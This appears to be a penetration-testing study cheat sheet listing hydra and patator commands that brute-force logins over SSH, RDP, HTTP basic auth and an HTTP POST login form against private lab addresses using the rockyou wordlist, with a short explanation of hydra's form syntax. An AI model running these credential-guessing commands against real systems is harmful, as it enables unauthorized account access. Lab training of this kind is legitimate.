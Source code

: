
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP
```
ftp://
```


# HTTP GET (Basic Auth)
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.242.201 http-head /
```
```
patator http_fuzz auth_type=basic url=http://192.168.157.46:242/ user=FILE0 password=FILE1 0=./users.txt 1=/usr/share/wordlists/rockyou.txt -x ignore:code=401
```


# HTTP POST
http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
